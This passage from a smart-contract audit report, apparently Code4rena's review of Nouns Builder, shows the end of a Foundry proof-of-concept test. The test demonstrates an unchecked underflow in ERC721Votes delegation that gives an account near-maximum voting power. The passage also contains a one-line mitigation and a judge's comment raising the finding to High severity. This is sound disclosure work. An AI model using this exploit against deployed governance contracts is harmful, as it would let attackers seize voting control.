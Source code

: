             vm.warp(22 minutes);

            auction.settleCurrentAndCreateNewAuction();

            assertEq(token.ownerOf(3), bidder1);

            console.log(token.balanceOf(bidder1)); // 2
            console.log(token.getVotes(bidder1)); // 2
            console.log(token.getVotes(bidder2)); // 1

            vm.prank(bidder1);        
            token.delegate(bidder1);

            console.log(token.getVotes(bidder1)); // 4
            console.log(token.getVotes(bidder2)); // 6277101735386680763835789423207666416102355444464034512895     
      }

When user1 delegates to another address `balanceOf(user1)` amount of tokens are subtraced from user2's votes, this will cause underflow and not revert since the statements are unchecked

### Tools Used

Foundry

### Recommended Mitigation Steps

Change delegate transfer in `afterTokenTransfer` to

            _moveDelegateVotes(delegates(_from), delegates(_to), 1);

**[Alex the Entreprenerd (judge) increased severity to High and commented](https://github.com/code-423n4/2022-09-nouns-builder-findings/issues/469#issuecomment-1257276491):**
 > The warden has shown how to exploit:
> - An unchecked section of the code
> - An incorrect logic in moving tokenDelegation
> 
> To trigger an underflow that gives each user the maximum voting power.
> 
> While some setup is necessary (having 1 token), I think the exploit is impactful enough to warrant High Severity, as any attacker will be able to obtain infinite voting power on multiple accounts.
>
> In contrast to other reports, this finding (as well as it's duplicates) are using an unchecked operation to negatively overflow the amount of votes to gain the maximum value.

**[tbtstl (Nouns Builder) confirmed](https://github.com/code-423n4/2022-09-nouns-builder-findings/issues/469)**



***

## [[H-02] ERC721Votes's delegation disables NFT transfers and burning](https://github.com/code-423n4/2022-09-nouns-builder-findings/issues/373)
_Submitted by hyh_
